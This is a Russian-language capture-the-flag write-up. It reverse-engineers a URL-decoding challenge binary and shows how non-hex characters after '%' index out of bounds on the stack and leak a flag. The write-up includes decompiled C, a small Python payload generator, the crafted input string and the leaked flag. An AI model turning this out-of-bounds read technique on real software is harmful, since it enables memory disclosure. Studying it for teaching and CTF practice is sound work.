

# Раскодируй: Write-up

Открывая задание видим бинарный файл `urldecode`. При запуске он просит ввести строку, после чего выводит результат декодирования этой строки из URL-кодировки.

## Начало реверса
Начнем с простого: запустим на данном нам бинарнике утилиту `strings`:

```sh

strings urldecode
...
ugra_dummy_dummy_dummy_dummy_d_123456789012
...

```
Флаг тут есть, но фейковый. Скорее всего, на сервере запускается такой же бинарник, но с настоящими флагом, а наш — для тренировки и дебага.

Загрузим программу в IDA. В функции `main` дизассемблер выводит какой-то адекватный код, но флаг тут и не упоминается. Куда же он делся?

```c

int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  size_t v4; // rax
  int i; // [rsp+10h] [rbp-170h]
  int j; // [rsp+14h] [rbp-16Ch]
  int v8; // [rsp+18h] [rbp-168h]
  int v9; // [rsp+18h] [rbp-168h]
  int v10; // [rsp+1Ch] [rbp-164h]
  int v11; // [rsp+1Ch] [rbp-164h]
  int k; // [rsp+20h] [rbp-160h]
  char *s; // [rsp+28h] [rbp-158h]
  char *v14; // [rsp+30h] [rbp-150h]
  char *ptr; // [rsp+38h] [rbp-148h]
  char v16[264]; // [rsp+70h] [rbp-110h]
  unsigned __int64 v17; // [rsp+178h] [rbp-8h]

  v17 = __readfsqword(0x28u);
  for ( i = 0; i <= 7; ++i )
  {
    for ( j = 0; j <= 15; ++j )
      v16[16 * i + j] = 16 * i + j;
  }
  s = (char *)malloc(0x1000uLL);
  if ( argc == 2 )
  {
    if ( strlen(argv[1]) > 0xFFF )
      v3 = 4096;
    else
      v3 = strlen(argv[1]);
    memcpy(s, argv[1], v3);
  }
  else
  {
    puts("Enter a string to decode");
    fflush(_bss_start);
    fgets(s, 4095, stdin);
  }
  v4 = strlen(s);
  ptr = (char *)malloc(v4 + 1);
  if ( ptr )
  {
    v14 = ptr;
    while ( *s )
    {
      if ( *s == '%' )
      {
        if ( s[1] && s[2] )
        {
          v8 = s[1];
          v10 = s[2];
          if ( v8 > '9' )
          {
            if ( v8 > 'F' )
            {
              if ( v8 > 'f' )
                v9 = 0;
              else
                v9 = v8 - 'W';
            }
            else
            {
              v9 = v8 - '7';
            }
          }
          else
          {
            v9 = v8 - '0';
          }
          if ( v10 > '9' )
          {
            if ( v10 > 'F' )
            {
              if ( v10 > 'f' )
                v11 = 0;
              else
                v11 = v10 - 'W';
            }
            else
            {
              v11 = v10 - '7';
            }
          }
          else
          {
            v11 = v10 - '0';
          }
          *v14 = v16[16 * v9 + v11];
          s += 2;
        }
      }
      else if ( *s == '+' )
      {
        *v14 = ' ';
      }
      else
      {
        *v14 = *s;
      }
      ++s;
      ++v14;
    }
    *v14 = 0;
    printf("Decoded: ");
    for ( k = 0; k < v14 - ptr; ++k )
      putchar(ptr[k]);
    putchar(10);
    free(ptr);
    return 0;
  }
  else
  {
    puts("Memory allocation failed");
    return 1;
  }
}
```

Давайте разбираться, что тут происходит.

Поискав память по строке `ugra`, находим глобальный символ `FLAG`. IDA показывает, что ссылка на него из main все же есть... но где? В дизассемблере происходящее становится понятее: в `main` байты флага считываются из `FLAG` (`0x2020`) и перекладываются на стек в локальную переменную. Декомпилятор этого не показывает, потому что эта локальная переменная больше нигде не используется.




## Анализ

После использования мозгов на псевдокод мы понимаем, что алгоритм работы следующий:
1. Программа заполняет массив `v16` на стеке ASCII-символами подряд
2. Программа выделяет память под строку `s` и копирует в неё строку из аргументов или вводит строку с клавиатуры
3. Программа проходит по введенной строке и, если находит символ `%`, то декодирует последующие два символа в символ из массива `v16`, а если находит символ `+`, то заменяет его на пробел

С последним шагом и есть проблема — программа неправильно декодирует символы, если они не являются валидными HEX-цифрами (`0-9A-Fa-f`). Таким образом, если мы введем символ, который не входит в этот диапазон, то сможем получить индекс в массиве `v16`, который выходит за его границы. Это позволяет нам прочитать данные со стека до массива `v16`. А там как раз и находится флаг.

## Эксплуатация

Давайте напишем простой скрипт на Python:
    
```python
def gen_string(readlen, start):
    s = b""
    for i in range(readlen, start, -1):
        low_byte = i % 16
        high_byte = i // 16

        bytesord = b""" !"#$%&'()*+,-./0"""[::-1]

        pseudohex = (
            b"%"
            + bytesord[high_byte : high_byte + 1]
            + bytesord[low_byte : low_byte + 1]
        )

        s += pseudohex
    return s
```

В строке `bytesord` указаны все печатные символы с ASCII-кодами меньше цифры `0`. Используя два индекса, мы можем перебирать большой диапазон памяти до массива `v16`.

Немного перебрав оффсеты, чтобы локально получался флаг, получаем такую строку:

```python
>>> gen_string(48, 4)

b'%-0%.!%."%.#%.$%.%%.&%.\'%.(%.)%.*%.+%.,%.-%..%./%.0%/!%/"%/#%/$%/%%/&%/\'%/(%/)%/*%/+%/,%/-%/.%//%/0%0!%0"%0#%0$%0%%0&%0\'%0(%0)%0*%0+'
```

Передаем её в программу и получаем флаг:

```
Decoded: ugra_URL3nc0d3_1s_3asy_4nd_fUn_ixdffifag5i6\x00
```

Флаг: **ugra_url3nc0d3_1s_3asy_4nd_fun_ixdffifag5i6**
